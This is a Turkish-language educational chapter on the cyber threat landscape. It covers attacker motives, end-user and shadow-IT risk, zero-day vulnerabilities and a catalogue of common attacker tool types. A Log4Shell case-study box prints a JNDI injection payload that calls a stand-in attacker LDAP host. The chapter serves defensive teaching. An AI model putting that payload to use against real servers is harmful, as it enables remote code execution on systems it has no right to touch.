## Modern Tehdit Manzarasına Giriş ve Dijital Ekosistemin Gerçekleri

Bu giriş bölümü, sonraki ayrıntılı aktör profillerini anlamak için gerekli temel kavramları oluşturacaktır. Modern bağlamda bir APT'nin ne anlama geldiğini tanımlayacak ve uygulayıcılar için temel zorluk olan tehdit aktörü adlandırma kurallarının kafa karıştırıcı ortamını ele alacaktır.

### 1.1. Ağ Üzerindeki Av ve Avcı İlişkisi

İster ticari ister kâr amacı gütmeyen bir işletme olsun, her işletmenin güvenli bir organizasyon oluşturmanın uzun vadeli başarı için önemli olduğunu anlaması mantıklı görünmektedir. Bir işletme güçlü bir güvenlik duruşu uyguladığında ve sürdürdüğünde, çok sayıda avantajdan yararlanabilir. Güvenli bir kuruluş, güvenlik programını bir pazarlama aracı olarak kullanabilir ve müşterilerine işlerine ne kadar değer verdiğini ve bilgilerini korumak için ne derece bir duruş sergilediğini gösterebilir. Ancak en önemlisi, güvenli bir kuruluş güvenlik ihlallerini tespit etmek ve bu ihlallerin sonuçlarına müdahale etmek için zaman ve para harcamak zorunda kalmayacaktır.



Bilgi Güvenliği

Aktif bir Web varlığı oluşturduğunuz anda, şirketinizin sırtına bir hedef koymuş olursunuz. Örümceğin ağına düşen talihsiz böcek gibi, şirketinizin büyüklüğü de Web'de yarattığınız rahatsızlığın boyutunu ve kötü adamlar tarafından ne kadar çabuk fark edildiğinizi belirler. Bir av olarak ne kadar çekici olduğunuz, genellikle bir avcıya sunabileceklerinizle doğru orantılıdır. Eğer işiniz kredi kartı ya da diğer finansal bilgilerle gelişen bir e-ticaret sitesi ya da çalınacak değerli sırları olan bir şirketse, caziplik katsayınız artar; çalacak daha fazla değeriniz vardır. Ve eğer işiniz yeniyse ve Web'deki varlığınız yeniyse, belki de siber savaşın incelikleri konusunda henüz deneyimli olmadığınız ve dolayısıyla bir saldırıya karşı daha savunmasız olduğunuz varsayılabilir.

Ne yazık ki, ağ savunmanıza sızmak isteyenlerin çoğu eğitimli, motive olmuş ve en küçük açıklıkları kontrol ederek çevrenizde sessizce dolaşmak için daha hızlı ve daha etkili yöntemler geliştirme konusunda oldukça zekidir. Çoğu BT uzmanı, bir işletmenin güvenlik duvarının dünyanın her köşesinden gelen saldırganlar tarafından durmaksızın zayıflıklar ve güvenlik açıkları için araştırıldığını bilir. Yazılımla ilgili haberleri takip eden herkes, görünüşe göre birkaç ayda bir, bir işletim sistemi veya uygulamada yeni, istismara açık bir açık hakkında haber çıktığını anlar. En bilgili ağ yöneticisinin ya da yazılımı yazan programcının bile günümüzün giderek daha karmaşık hale gelen yazılımlarındaki tüm açıkları bulup kapatamayacağı yaygın olarak bilinmektedir.

Hatalar uygulamalarda, işletim sistemlerinde, sunucu işlemlerinde (daemon) ve istemcilerde mevcuttur. Varsayılan yönetici şifresini değiştirmemek veya varsayılan sistem ayarlarını kabul etmek ya da makineyi güvenli olmayan bir modda çalışacak şekilde yapılandırarak istemeden açık bir delik bırakmak gibi sistem yapılandırmaları da istismar edilebilir. Tüm İnternet trafiğinin üzerinde çalıştığı temel olan İletim Kontrol Protokolü/İnternet Protokolü (TCP/IP) bile istismar edilebilir, çünkü protokol bilgisayar korsanlığı tehdidi gerçekten yaygınlaşmadan önce tasarlanmıştır. Bu nedenle, örneğin bir bilgisayar korsanının IP verilerini kolayca değiştirmesine izin verebilecek tasarım kusurları içerir.

Bir uygulamada yeni ve istismar edilebilir bir açıklık olduğu duyulduğunda (ve duyulacaktır), dünyanın dört bir yanındaki cracker'lar internetteki siteleri taramaya başlar ve söz konusu açıklığa sahip tüm siteleri ararlar.

Ağınızdaki birçok açıklığın çalışanlarınızdan kaynaklanabileceği gerçeği işinizi daha da zorlaştırır. Sıradan bir şekilde porno sitelerinde gezinmek, yalnızca bir çalışanın siteyi ziyaret etmesiyle ağı her türlü kötü böcek ve kötü amaçlı koda maruz bırakabilir. Sorun şu ki, kullanıcılar için bu o kadar da önemli bir şey gibi görünmeyebilir. Ağı izinsiz girişlere açık bıraktıklarının ya farkında değiller ya da umursamıyorlar.

### 1.2. Protokollerin ve Kodun Kusurları

Güvenli bir kurum oluşturmayı zorlaştıran engellere yakından bakalım.

Güvenlik, doğası gereği zahmetlidir ve güvenlik mekanizmaları ne kadar sağlam olursa süreç de o kadar zahmetli hale gelir. Bir kuruluştaki çalışanların yapacak bir işi vardır; hemen işe koyulmak isterler. Parolalardan çok faktörlü kimlik doğrulamaya kadar çoğu güvenlik mekanizması üretkenliğin önündeki engeller olarak görülür. Güvenlik alanındaki güncel trendlerden biri de dizüstü bilgisayarlara tüm disk şifrelemesi eklemektir. Bu şiddetle tavsiye edilen bir güvenlik süreci olmasına rağmen, bir bilgisayar kullanıcısının gerçekten çalışmaya başlamasından önce ikinci bir giriş adımı ekler. Bu adım oturum açma sürecine yalnızca bir dakika eklese bile, bir yıl boyunca bu dört saatlik üretkenlik kaybına neden olur.

Güvenlik önlemlerinin yol açtığı hayal kırıklığını tam olarak anlamak için herhangi bir havaalanındaki Ulaştırma Güvenlik İdaresi (TSA) güvenlik kuyruklarını izlememiz yeterlidir. Bir yolcu uçağına binmek için geç kalırken, belirli bir eşya tarayıcıdan üçüncü kez geçirilirken yaşanan hayal kırıklığını izlemeniz yeterlidir. Güvenlik uygulamaları kayan bir ölçeğe dayanır; ölçeğin bir ucu tam güvenlik ve tam rahatsızlık, diğer ucu ise tam güvensizlik ve tam kullanım kolaylığıdır. Herhangi bir güvenlik mekanizmasını uygulamaya koyduğumuzda, güvenlik ve kullanım kolaylığı seviyesinin kurum için kabul edilebilir risk seviyesiyle eşleştiği ölçeğe yerleştirilmelidir.

#### Güçlü ve Karmaşık Bilgisayarlar

Ev bilgisayarları kişisel verilerin deposu haline geldi. Bilgisayarlarımız artık düğün videoları, taranmış aile fotoğrafları, müzik kütüphaneleri, film koleksiyonları ve finansal ve sağlık bilgileri içeriyor. Bilgisayarlar bu kadar tanıdık bilgiler içerdiği ve hayatın içine girdiği için ne kadar güçlü ve karmaşık cihazlar olduklarını unuttuk. Bundan çok uzun zaman önce masaüstü ve dizüstü bilgisayarlarımız kadar güçlü bilgisayarlar bir veya daha fazla büyük odayı doldururdu. Buna ek olarak, günümüz bilgisayarları dünyaya "kullanıcı dostu" bir yüz sunuyor.



ENIAC Bilgisayarı

Çoğu insan bilgisayarların gerçekte nasıl çalıştığını ve perde arkasında neler olup bittiğini bilmiyor. Windows Kayıt Defteri(Registry), bağlantı noktaları(Port) ve hizmetler(Services) gibi şeyler çoğu kullanıcı tarafından tamamen bilinmemekte ve birçok bilgisayar profesyoneli tarafından da yeterince anlaşılmamaktadır. Örneğin, birçok kişi hala Windows oturum açma parolasının bilgisayardaki verileri koruduğuna inanmaktadır. Aksine, birisi sabit sürücüyü bilgisayardan çıkarabilir, başka bir bilgisayara sürücü olarak takabilir veya bir USB sürücü muhafazasına yerleştirebilir ve tüm verilere kolayca erişilebilir.

#### Bilgisiz Bilgisayar Kullanıcıları

Birçok bilgisayar kullanıcısı, elektronik tablolar (excel gibi), kelime işlem belgeleri(word gibi) ve sunumlar(powerpoint gibi) oluşturma konusunda yetenekli oldukları için, kısaca ofis programları, "bilgisayarlar hakkında her şeyi bildiklerine" inanmaktadır.

Bu "Bilgili Kullanıcılar" uygulama temellerinin ötesine geçmiştir, ancak birçoğu hala temel güvenlik kavramlarını bile anlamamaktadır. Birçok kullanıcı, bu eylemlerin şirket politikalarını ihlal edebileceği gerçeğine rağmen gelişigüzel yazılım yükleyecek ve şüpheli Web sitelerini ziyaret edecektir. "Kötü adamlar", bilgisayar sistemlerinden bilgi çalmak ya da bilgisayar sistemlerine zarar vermek isteyen kişiler, son kullanıcının güvenlik zincirinde zayıf bir halka olduğunu da tespit etmişlerdir.

Son Kullanıcı Riski

Şirketler çevre savunmalarına daha fazla para yatırmaya başladıkça, saldırganlar en az direnç gösteren yolu aramaya başladılar. Zararlı yazılımları e-posta eki olarak göndererek alıcılardan eki açmalarını istiyorlar. Bilinmeyen göndericilerden gelen ekleri açmamaları ya da sadece ekleri hiç açmamaları söylenmesine rağmen, çalışanlar sürekli olarak bu politikayı ihlal ederek ağlarında hasara yol açıyor.



Kimlik Avı

Kimlik avı dolandırıcılığı bireyleri kişisel çevrimiçi bankacılık ve kredi kartı bilgilerini vermeye ikna etmede çok etkili olmuştur. Son kullanıcılar banka hesaplarının anahtarlarını vermeye fazlasıyla istekliyken bir saldırgan neden bir kurumun savunmasını aşmak için uğraşsın ki? Eğitimsiz ve dikkatsiz son kullanıcıların neden olduğu tehdidi ele almak her türlü güvenlik programının önemli bir parçasıdır.

#### Güvenlik Düşünülmeden Üretilen Bilgisayarlar

Kişisel bilgisayarların (PC) geliştirilmesi sırasında güvenlik konusuna hiç kafa yorulmamıştır. İlk PC'ler sınırlı işlem gücüne sahip, klavyesi olmayan ve bir dizi düğmenin çevrilmesiyle programlanan çok basit cihazlardı. Neredeyse bir merak unsuru olarak geliştirilmişlerdi. Daha gelişmiş ve karmaşık hale geldiklerinde bile, tüm çabalar daha fazla gelişmişlik ve yetenek geliştirmeye odaklandı; kimse güvenlik sorunları olacağını düşünmedi. O zamanlar güvenliğin neden bir sorun olmadığını anlamak için Berkeley Enterprises Geniac, Heathkit EC-1 veya MITS Altair 8800 gibi ilk bilgisayarlardan bazılarına bakmamız yeterlidir. Bilgisayarların geliştirilmesi ne yapabileceklerine odaklanmıştı, nasıl saldırıya uğrayabileceklerine değil!

*ENIAC (1945) — ilk elektronik programlanabilir bilgisayar güvenlik kaygısı taşımadan tasarlandı; bu miras modern sistemlerin yapısal açıklarının temelidir.*

MITS Altair 8800--İlk Kişisel Bilgisayar

Bilgisayarlar birbirine bağlanmaya başladığında temel amaç bilgiyi korumak değil, bilgiyi paylaşma yeteneği sağlamaktı. İnternet başlangıçta askeri uygulamalar için tasarlanmıştı, ancak sonunda temel ilkesi bilgi paylaşımı olan kolejlere ve üniversitelere taşındı.

#### Mevcut Trend Korumak Değil Paylaşmak

Şu anda bile, ele geçirilen verilerle ilgili hikayelere rağmen, insanlar hala verilerini herkesle paylaşmak istiyor. Web tabanlı uygulamalar bunu, bir dosyayı e-postaya eklemekten daha kolay hale getiriyor. Meta gibi sosyal ağ platformları materyal paylaşma olanağı sağlıyor: "Arkadaşlarınıza mesajlar, dosyalar, bağlantılar ve etkinlikler gönderin. Bir arkadaş ağı oluşturun ve bir şeyler paylaşın. Ücretsiz ve kolay.

Buna ek olarak, DropSend ve FilesAnywhere gibi birçok çevrimiçi veri depolama sitesi dosya paylaşma olanağı sağlamaktadır. Bu siteler, güvenlik mekanizmalarını atlayarak özel verilerin bir kuruluşu terk etmesine yol açabilir.

#### Her Yerden Erişilebilir Veriler

Çalışanların veri paylaşma isteği özel bilgilere yönelik yeterince tehdit oluşturmuyormuş gibi, birçok iş profesyoneli çalıştıkları her yerden, çeşitli cihazlardan verilere erişmek istiyor. Üretken olabilmek için çalışanlar artık dizüstü bilgisayarları, masaüstü bilgisayarları, ev bilgisayarları ve mobil cihazlarındaki verilere ve iletişim bilgilerine erişim talep ediyor. Bu nedenle, bilgi teknolojisi (BT) departmanları artık verileri çok sayıda cihazla senkronize etme olanağı sağlamalıdır. BT departmanı bu olanağı sağlayamazsa ya da sağlamak istemezse, çalışanlar meseleleri kendi ellerine alma gücüne sahip.

Daha önce bahsedilen çevrimiçi depolama sitelerine hem evden hem de ofisten veya İnternet bağlantısının olduğu her yerden erişilebilir. Bugün bu riski çok daha karmaşık hale getiren olgu ise **Shadow IT (Gölge BT)**'dır: çalışanlar kurumsal politikalardan bağımsız olarak kişisel ChatGPT/LLM hesaplarına hassas şirket verilerini giriyor; kontrolsüz OneDrive ve Google Drive paylaşımları kurumsal veriyi şirketin görüş alanının dışına çıkarıyor; BT departmanının onaylamadığı SaaS entegrasyonları ise kritik verilerin kasıtsız sızmasına zemin hazırlıyor. Verilerin bir şirketin kontrolü dışında bu denli kolayca aktarılabilmesi, bir kuruluşun verilerinin güvenliğini sağlamayı çok daha zor hale getirmektedir.

*Resmi kurumsal ağ ile Shadow IT (Gölge BT) yollarının karşılaştırması — denetlenemeyen kanallar veri sızıntısının en büyük kaynağıdır.*

#### Güvenlik Donanım ve Yazılımla İlgili Değildir

Birçok işletme yeterince ekipman satın alırsa güvenli bir altyapı oluşturabileceğine inanır. Güvenlik duvarları, saldırı tespit sistemleri, antivirüs programları ve iki faktörlü kimlik doğrulama ürünleri, bir ağın ve verilerinin korunmasına yardımcı olacak araçlardan sadece birkaçıdır. Hiçbir ürün ya da ürün kombinasyonunun tek başına güvenli bir kurum yaratmayacağını akılda tutmak önemlidir. Güvenlik bir süreçtir; "kurup unutabileceğiniz" bir araç yoktur. Tüm güvenlik ürünleri ancak onları yapılandıran ve bakımını yapan kişiler kadar güvenlidir. Güvenlik ürünlerinin satın alınması ve uygulanması güvenlik bütçesinin sadece bir yüzdesi olmalıdır. Güvenlik cihazlarının bakımını yapmakla görevli çalışanlara, ürünleri düzgün bir şekilde desteklemeleri için yeterli zaman, eğitim ve ekipman sağlanmalıdır. Ne yazık ki pek çok kuruluşta güvenlik faaliyetleri destek faaliyetlerinin gerisinde kalmaktadır. Yüksek vasıflı güvenlik uzmanları genellikle unutulan şifrelerin sıfırlanması, sıkışan yazıcıların onarılması ve yeni çalışan iş istasyonlarının kurulması gibi yardım masası projeleriyle görevlendirilir.

#### Yönetim, Güvenliği Karlılık Üzerinde Bir Yük Olarak Görüyor

Çoğu kuruluş için güçlü bir güvenlik duruşu oluşturmanın maliyeti, sigorta satın almaya benzer şekilde gerekli bir kötülük olarak görülür. Kuruluşlar bunun için para harcamak istemezler, ancak satın alma yapmamanın riskleri maliyetlerden daha ağır basar. Bu tutum nedeniyle, güvenli bir organizasyon oluşturmak son derece zordur. Bu tutum, güvenlik araçlarına yönelik taleplerin genellikle güçlü bir güvenlik duruşunun daha somut faydalarını göstermek yerine bir güvenlik olayının ortalama maliyetini gösteren belgelerle desteklenmesinden kaynaklanmaktadır.



İhlallerin Bedeli

BT uzmanlarının yönetimden farklı bir dil konuşuyor olması sorunu daha da derinleştirmektedir. BT uzmanları genellikle teknolojiye odaklanırlar, nokta. Yönetim ise gelire odaklanır. Kârlılık, varlık amortismanı, yatırımın geri dönüşü, gerçekleştirme ve toplam sahip olma maliyeti gibi kavramlar yönetimin temel dayanaklarıdır. Bunlar çoğu BT profesyoneli için yabancı kavramlardır.

Gerçekçi olmak gerekirse, yönetimin bilgi teknolojisinin bazı temellerini öğrenmek için adım atması yararlı olsa da, BT uzmanları inisiyatif almalı ve bazı temel iş kavramlarını öğrenmelidir. Bu kavramları öğrenmek kurum için faydalıdır çünkü teknik altyapı uygun maliyetli bir şekilde uygulanabilir ve BT uzmanları için kariyer gelişimi açısından faydalıdır.

Google'da "BT uzmanları için iş becerileri"("business skills for IT professionals") üzerine yapılacak bir arama, yararlı olabilecek çok sayıda eğitim programını getirecektir. Bir sınıfa katılmak için zamanı veya eğilimi olmayanlar için, bazı çok faydalı materyaller çevrimiçi olarak bulunabilir.

Hangi yaklaşım benimsenirse benimsensin, yeni güvenlik ürünleri, araçları veya politikaları talep edilirken her türlü somut maliyet tasarrufundan veya gelir yaratımından yararlanılması gerektiğini unutmamak önemlidir. Güvenlik uzmanları genellikle Web portallarını çalışanlar için açık tutmanın değerini göz ardı ederler. Bir satış personeli tarafından sözleşmeleri veya satın almaları girmek veya envanteri kontrol etmek için kullanılan bir veritabanı, kesinti süresi yoksa daha fazla gelir elde edilmesine yardımcı olacaktır. Erişilemeyen veya saldırıya uğrayan bir veritabanı gelir elde etmek için işe yaramaz.

Güçlü güvenlik, pazarda rekabet avantajı elde etmek için kullanılabilir. Haftanın yedi günü, günün 24 saati erişilebilen güvenli sistemlere sahip olmak, bir kuruluşun müşterilerine ve potansiyel müşterilerine daha verimli bir şekilde ulaşabileceği ve onlarla iletişim kurabileceği anlamına gelir. Müşteri kayıtlarının ve bilgilerinin iyi bir koruyucusu olarak tanınan bir kuruluş, güvenlik kaydını markasının bir parçası haline getirebilir. Bu, bir otomobil şirketinin güvenlik siciliyle tanınmasından farklı değildir. Örneğin, otomobil ve güvenlik tartışmalarında Volvo her zaman adı geçen ilk üreticidir.

Yönetimle yapılacak her türlü görüşmenin amacı, onları içinde yaşadığımız son derece teknik ve birbirine bağlı dünyada güvenli bir ağa ve altyapıya sahip olmanın "iş yapmanın tartışılmaz bir gerekliliği" olduğuna ikna etmektir." Hem BT uzmanları hem de yöneticiler için bu konular hakkında fikir verebilecek mükemmel bir kaynak CERT'in Kurumsal Güvenlik için Yönetim başlıklı teknik raporudur . <https://insights.sei.cmu.edu/documents/344/2007_019_001_54375.pdf>

Bilgisayarların ve kurumsal yazılımların bu kontrolsüz karmaşıklığı, arkasında kaçınılmaz kod hataları bırakır. İşte bu hatalar siber dünyanın en tehlikeli silahlarına, yani "Sıfırıncı Gün" zafiyetlerine dönüştüğünde, dijital ekosistemin tüm aktörleri için zamana karşı amansız bir yarış başlar.

### 1.3. N-Days ve Sıfır Gün (Zero-Day) Paradoksu

  <strong style="color: #3b82f6; font-size: 1.1em;">🔍 Vaka İncelemesi: CVE-2021-44228 (Log4Shell)</strong>
  

    <strong>Türü:</strong> Uzaktan Kod Çalıştırma (RCE) / Log4j Kütüphanesi Açığı 
    <strong>Etkisi:</strong> İnternet tarihindeki en kritik zafiyetlerden biridir. Saldırganların tek bir log satırı göndererek (örneğin <code>${jndi:ldap://saldirgan.com/a}</code>) hedef sunucuda tam yetkiyle kod çalıştırmasına izin verdi. Zero-Day penceresinin ne kadar tehlikeli olabileceğini gösteren en net örnektir.
  


*Log4Shell (CVE-2021-44228) — Java uygulama loglama kütüphanesindeki JNDI enjeksiyon zafiyetinin anatomisi.*

Bu yazımda, genel olarak tespit edilmesinin ve önlenmesinin zor olduğu kabul edilen sıfıncı-gün ataklarına karşı nasıl bir siber savunma stratejisinin geliştirilebileceğine değineceğim. Birçok kurumun muzdarip olduğu sıfıncı gün ataklarına karşı elbette elimiz boş bekleyemeyiz. Nasıl bir savunma altyapısı kurmamız gerekiyor? hadi biraz tartışalım.

Öncelikle, sıfırıncı-gün ataklarının ve zafiyetlerinin tam olarak ne olduğu ve neden tespit edilmesinin zor olduğunu anlayalım

**Zafiyet**, genellikle bir sistem, ağ, yazılım veya donanımda var olan ve kötü niyetli kişilerin saldırmasına veya istismar etmesine olanak tanıyan bir güvenlik açığını ifade eder. Bu tür zafiyetler, bir sistemin güvenliğini tehlikeye atabilir ve veri hırsızlığı, yetkisiz erişim veya hizmet kesintisi gibi sonuçlara yol açabilir.

**Sıfırıncı Gün Atakları**, bilgisayar sisteminin yazılımlarında veya donanım bileşenlerinde henüz keşfedilmemiş veya bildirilmemiş güvenlik açıklarını kullanan saldırılardır. Bu güvenlik açıkları, zafiyetler, tespit edildikleri anda saldırganlar tarafından istismar edilir ve bu durum saldırıya uğrayan tarafın savunmasız yakalanmasına yol açar.



Peki neden savunmasızlar? Kurum zafiyet yönetimi süreçlerine ne kadar dikkat ederse etsin, varlığından haberdar olmadığı bir güvenlik açığını yönetemez. Zafiyet yönetimi için kullanılan pek çok ürünün çalışma mantığı da bilinen zafiyetlerin tespit edilmesi ve giderilmesine yöneliktir. Dolayısıyla, henüz keşfedilmemiş bir zafiyetin giderilmesi mümkün değildir.

Yeni keşfedilen zafiyetlerinde giderilmesi süreci ise bir miktar zaman alır. Şayet, zafiyetin keşfedildiği platformun sağlayıcısının yama yayınlaması ve kurumun bu yama ile gerekli güncelleştirmeleri yaparak açığı kapatmasına kadar belli bir miktar zaman gereklidir. Bu zaman zarfında ise kurum bu zafiyete karşı savunmasız duruma düşer.



Zafiyetin yayınlandığı anda kurumların savunmasız kalmasıyla saldırganlar harekete geçer. Shodan gibi platformlar üzerinden zafiyetli platforma sahip olan kurumları tespit ederler ve zafiyet giderilmeden saldırılarını gerçekleştirmeye çalışırlar.

Peki, kurumlar bu saldırlara karşı gerçekten savunmasız mı kalacak? Eli kolu bağlı mı bekleyecek? elbetteki hayır. Peki nasıl bir savunma stratejisi gereklidir? Şimdi buna değinelim.

---


```mermaid
mindmap
  root((Zafiyet Yönetimi))
    (Sıfır Gün Saldırısı)
      ((Zafiyet Tanımlama))
        [Uzaktan Kod Çalıştırma RCE]
        [Veri Hırsızlığı]
        [Yetkisiz Erişim]
        [Hizmet Kesintisi]
    (Derinlemesine Savunma Stratejisi)
      ((Tespit))
        [İmza tabanlı]
        [Davranış tabanlı]
        [Anomali tespiti]
        [Kötüye kullanım tespiti]
      ((Önleme))
        [Uç Nokta Koruma EPP]
        [Genişletilmiş Tespit XDR]
        [Ağ Tespiti NDR]
        [Güvenlik Duvarı]
        [Erişim Kontrolü]
```

## Düşmanını Tanı: Tehdit Aktörlerinin Anatomisi ve Motivasyonları

Ağ Saldırısı, kuruluşunuzdaki bir bilgisayara veya atanmış etki alanınızdaki bir adrese yetkisiz olarak girilmesidir. İzinsiz giriş pasif (gizlice ve tespit edilmeden sızma) veya aktif (ağ kaynaklarındaki değişikliklerin etkilendiği) olabilir. İzinsiz girişler ağ yapınızın dışından veya içinden (bir çalışan, müşteri veya iş ortağı) gelebilir. Bazı izinsiz girişler sadece davetsiz misafirin orada olduğunu size bildirmek içindir, Web sitenizi çeşitli mesajlar veya kaba resimlerle tahrif eder. Diğerleri ise daha kötü niyetlidir, kritik bilgileri tek seferlik olarak ya da keşfedilene kadar verileri hortumlamaya devam edecek sürekli bir parazit ilişki olarak elde etmeye çalışır. Bazı davetsiz misafirler şifreleri kırmak, tuş vuruşlarını kaydetmek veya sitenizi taklit ederek habersiz kullanıcıları kendi sitelerine yönlendirmek için özenle hazırlanmış kodlar yerleştirmeye çalışır. Diğerleri ise kendilerini ağa gömer ve sürekli olarak sessizce veri çeker ya da halka açık Web sayfalarını çeşitli mesajlarla değiştirir.

*Tehdit aktörü tipleri — bireylerden devlet destekli gruplara uzanan geniş spektrum.*

Bir saldırgan sisteminize fiziksel olarak (kısıtlı bir makineye ve sabit diskine ve/veya BIOS'una fiziksel erişim sağlayarak), harici olarak (Web sunucularınıza saldırarak veya güvenlik duvarınızı aşmanın bir yolunu bularak) veya dahili olarak (kendi kullanıcılarınız, müşterileriniz veya ortaklarınız) girebilir

Peki bu izinsiz girişler ne sıklıkla gerçekleşiyor? Modern istatistikler son derece çarpıcı: Verizon DBIR ve Akamai raporları, web uygulamalarına ve API'lere yönelik saldırıların yıldan yıla %33'ün üzerinde arttığını ortaya koyuyor. Her yıl milyarlarca kurumsal kimlik bilgisi dark web pazarlarına sızıyor ve tehdit aktörlerinin ağ içinde tespit edilmeden faaliyet gösterdiği ortalama süre (dwell time) düzinelerce güne uzanabiliyor; bu da saldırganların ağ içinde serbestçe hareket etmek için zaman bulduğunu gösteriyor.

Bir vakada, 2005 yılında büyük bir tüccardan 45 milyondan fazla kullanıcının kredi ve banka kartı bilgileri çalınmış ve 2006 yılında 130.000 kişinin daha verileri çalınmıştır. Satıcılar bu kaybın kendilerine tahmini olarak 5 milyon dolara mal olacağını bildirmişlerdir.

Spam ve sosyal mühendislik saldırıları, modern yapay zeka araçlarıyla dramatik biçimde evrilmiştir. Günümüzde botnet ağları milyonlarca "zombi" cihazı kapsarken, LLM tabanlı kampanyalar dakikalar içinde binlerce kişiselleştirilmiş oltalama mesajı üretebilmektedir. FIN7 ve Scattered Spider gibi siber suç grupları, endüstriyel ölçekte veri hırsızlığı ve fidye yazılımı operasyonları yürütmektedir.

Secure Computing tarafından yapılan araştırmaya göre, zararlı yazılım kullanımı da istikrarlı bir şekilde artıyor ve "tüm zararlı yazılım bulaşmış URL'lerin yaklaşık %60'ı" ABD ve Çin'den geliyor. Web ile ilgili saldırılar daha da yaygınlaşacak, siyasi ve mali amaçlı saldırılar listenin başında yer alacak. Secure Computing'in araştırması, Web saldırı araç setlerinin kullanılabilirliğinin artmasıyla birlikte, "Web kaynaklı tüm saldırıların yaklaşık yarısının muhtemelen tehlikeye atılmış meşru Web sitelerinde barındırılacağını" tahmin ediyor.

İzinsiz girişin amacı ne olursa olsun -eğlence, açgözlülük, övünme hakkı veya veri hırsızlığı- sonuç aynıdır: ağ güvenliğinizdeki bir zayıflık tespit edilmiş ve istismar edilmiştir. Ve siz bu zayıflığı, yani izinsiz giriş noktasını keşfetmediğiniz sürece, ortamınıza açılan açık bir kapı olmaya devam edecektir. Peki, dışarıda ağınıza girmek isteyen kimler var?

Günümüzde crackerlar, yaptıkları işi yapmak için giderek daha sofistike ve iyi stoklanmış bir araç setiyle donanmaktadır. Tıpkı özel yapım maymuncuklarıyla profesyonel hırsızlar gibi, günümüzde kırıcılar da ağınızdaki zayıf noktaları gizlice test etmek için korkutucu bir dizi araç edinebilmektedir. Bu araçlar basit parola çalan kötü amaçlı yazılımlar ve tuş vuruşu kaydedicilerden (logger) şirketinizle e-ticaret işlemi yapmak isteyen müşterilerden gelen veri akışlarını kopyalayan sofistike parazit yazılım dizeleri yerleştirme yöntemlerine kadar uzanmaktadır. Daha yaygın olarak kullanılan araçlardan bazıları şunlardır:

* Wireless sniffers, bu cihazlar yalnızca belirli bir menzil içindeki kablosuz sinyallerin yerini tespit etmekle kalmaz, aynı zamanda sinyaller üzerinden iletilen verileri de hortumlayabilirler. Uzak kablosuz cihazların popülerliğinin ve kullanımının artmasıyla birlikte, bu uygulama kritik verilerin kaybından giderek daha fazla sorumlu hale gelmekte ve BT departmanları için önemli bir baş ağrısı oluşturmaktadır.
* Packet sniffers, bir ağ veri akışına yerleştirildikten sonra, bunlar bir ağ arayüzüne giren ve çıkan veri paketlerini pasif olarak analiz eder ve yardımcı programlar bir ağ arayüzünden geçen veri paketlerini yakalar.
* Port scanners, bu araçlar için iyi bir benzetme, açık ya da kilitli olmayan bir kapı arayan bir hırsızın mahalleyi gözetlemesidir. Bu araçlar, hedef sistemin bağlantı noktalarına ardışık, sıralı bağlantı istekleri göndererek hangisinin isteğe yanıt verdiğini veya açık olduğunu görür. Bazı port tarayıcılar, saldırganın port tarama hızını yavaşlatmasına — bağlantı isteklerini daha uzun bir süre boyunca göndermesine — izin verir, böylece izinsiz giriş girişiminin fark edilme olasılığı daha düşüktür. Bu cihazların olağan hedefleri eski, unutulmuş "arka kapılar" veya ağ değişikliklerinden sonra yanlışlıkla korumasız bırakılan bağlantı noktalarıdır.
* Port knocking, bazen ağ yöneticileri, güvenlik duvarı korumalı bağlantı noktalarını aşmak için gizli bir arka kapı yöntemi yaratırlar — ağa hızlı bir şekilde erişmelerini sağlayan gizli bir vuruş. Port vurma araçları bu korumasız girişleri bulur ve bu gizli vuruşun kanıtı için ağ trafiğini dinleyen bir Truva atı yerleştirir.
* Keystroke loggers, bunlar savunmasız sistemlere yerleştirilen ve kullanıcının tuş vuruşlarını kaydeden casus yazılım programlarıdır. Açıkçası, birisi arkasına yaslanıp bir kullanıcının yaptığı her tuş vuruşunu kaydedebiliyorsa, kullanıcı adları, parolalar ve kimlik numaraları gibi şeyleri elde etmek uzun sürmez.
* Remote administration tools, şüphelenmeyen bir kullanıcının sistemine yerleştirilen ve bilgisayar korsanının o sistemin kontrolünü ele geçirmesini sağlayan programlar.
* Network scanners, bir ağdaki ana bilgisayar sistemlerinin sayısını ve türünü, mevcut hizmetleri, ana bilgisayarın işletim sistemini ve kullanılan paket filtreleme veya güvenlik duvarlarının türünü görmek için ağları araştırın.
* Password crackers, bunlar, parolalarla ilişkili veri akışları için ağları koklar ve ardından bu parolaları koruyan şifreleme katmanlarını soymak için kaba kuvvet yöntemini kullanır.

Daha önce de belirtildiği gibi, şirketinizin sadece Web'deki varlığı bile sırtınıza bir hedef tahtası yerleştirir. İlk saldırıyla karşılaşmanız an meselesidir. Bu, birkaç başarısız oturum açma girişimi kadar masum görünen bir şey olabileceği gibi, bir saldırganın Web sitenizi tahrif etmesi ya da ağınızı çökertmesi kadar bariz bir şey de olabilir. Bu işe savunmasız olduğunuzu bilerek girmeniz önemlidir.

Bilgisayar korsanları ilk olarak işletim sisteminizdeki (OS) veya kullandığınız uygulamalardaki bilinen zayıflıkları arayacaklardır. Daha sonra, güvenlik duruşunuzda hızlı veya kolay bir şekilde istismar edilebilecek hatalar olan delikler, açık portlar veya unutulmuş arka kapılar aramaya başlarlar.

Muhtemelen bir izinsiz girişin en yaygın belirtilerinden biri — ister teşebbüs edilmiş ister başarılı olsun — birilerinin kuruluşunuzun kendi güvenlik sistemlerinden yararlanmaya çalıştığına dair tekrarlanan işaretlerdir ve şüpheli ağ faaliyetlerini izlemek için kullandığınız araçlar aslında size karşı oldukça etkili bir şekilde kullanılabilir. Ağ güvenliği ve dosya bütünlüğü tarayıcıları gibi araçlar, ağınızın güvenlik açığı konusunda sürekli değerlendirmeler yapmanıza yardımcı olmak için paha biçilmez olabilir ve bir giriş yolu arayan bilgisayar korsanları tarafından da kullanılabilir.

Çok sayıda başarısız oturum açma girişimi de sisteminizin hedef alındığının iyi bir göstergesidir. En iyi sızma testi araçları, aşıldığında bir uyarıyı tetikleyecek girişim eşikleriyle yapılandırılabilir. Tekrarlayan nitelikteki meşru ve şüpheli faaliyetleri pasif olarak ayırt edebilir, faaliyetler arasındaki zaman aralıklarını izleyebilir (sayı belirlediğiniz eşiği aştığında uyarı verir) ve belirli bir süre içinde birden çok kez görülen imzalardan oluşan bir veritabanı oluşturabilirler.

"İnsan unsuru" (kullanıcılarınız) ağ operasyonlarınızda sabit bir faktördür. Kullanıcılar sık sık yanlış yanıt girerler ancak genellikle bir sonraki denemede hatayı düzeltirler. Bununla birlikte, bir dizi yanlış yazılmış komut veya yanlış oturum açma yanıtları (bunları kurtarma veya yeniden kullanma girişimleriyle birlikte) kaba kuvvet saldırı girişimlerinin bir işareti olabilir.

